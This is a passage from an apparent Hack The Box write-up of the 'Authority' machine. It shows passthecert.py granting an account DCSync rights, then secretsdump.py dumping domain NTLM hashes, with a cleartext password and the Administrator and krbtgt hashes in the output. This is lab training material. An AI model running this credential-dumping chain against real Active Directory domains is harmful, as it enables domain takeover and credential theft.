 Or we can give `DCSYNC` rights to the user with `passthecert.py` and dump domain hashes.

```jsx
(venv) ┌─[✗]─[noob@parrot]─[~/htb/authority/notes/certs]
└──╼ $python3 passthecert.py -action modify_user -crt admin.crt -key admin.key -domain authority.htb -dc-ip 10.10.11.222 -target 'svc_ldap' -elevate
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Granted user 'svc_ldap' DCSYNC rights!
```

```jsx
┌─[noob@parrot]─[~/htb/authority/notes/certs]
└──╼ $secretsdump.py 'svc_ldap:lDaP_1n_th3_cle4r!@authority.htb'
Impacket v0.10.1.dev1+20230504.43204.0bdad34a - Copyright 2022 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:fd46a391cd96241d31c6cf3402c4c365:::
[--SNIP--]
```
